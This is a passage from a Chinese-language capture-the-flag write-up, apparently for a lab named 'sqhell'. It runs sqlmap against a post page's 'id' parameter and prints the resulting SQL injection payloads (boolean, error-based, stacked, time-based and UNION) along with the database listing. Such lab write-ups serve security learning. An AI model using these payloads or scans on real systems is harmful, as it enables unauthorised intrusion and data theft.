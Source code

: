 找到旗子了。实际上是 3 号旗。但是没关系。我们去找其他人吧。

![](img/4d8da9b5aa9de8ced06d1196f1d4d763.png)

```
http://10.10.X.X/post?**id**=2
```

我忘了点击“阅读更多”链接。看来还有另一个查询参数可供 brute 使用。让我们试试

```
# sqlmap -u "http://10.10.X.X/post?id=2" -p "id" --risk=3 --level=3 --dbs --dbms=mysql --threads 10sqlmap identified the following injection point(s) with a total of 52 HTTP(s) requests:
---
Parameter: id (GET)
**Type: boolean-based blind**
Title: AND boolean-based blind - WHERE or HAVING clause
Payload: id=2 AND 3791=3791**Type: error-based**
Title: MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)
Payload: id=2 AND GTID_SUBSET(CONCAT(0x71706a7071,(SELECT (ELT(9206=9206,1))),0x716b7a6b71),9206)**Type: stacked queries**
Title: MySQL >= 5.0.12 stacked queries (comment)
Payload: id=2;SELECT SLEEP(5)#**Type: time-based blind**
Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
Payload: id=2 AND (SELECT 3078 FROM (SELECT(SLEEP(5)))ERZk)**Type: UNION query**
Title: Generic UNION query (NULL) - 4 columns
Payload: id=-6926 UNION ALL SELECT NULL,CONCAT(0x71706a7071,0x4c474b6e4f55716e4557424a686c4d755a564f6a4c58625550634774787947517541666b5a4e674b,0x716b7a6b71),NULL,NULL-- -
---
....
....available databases [2]:
[*] information_schema
**[*] sqhell_5**
```
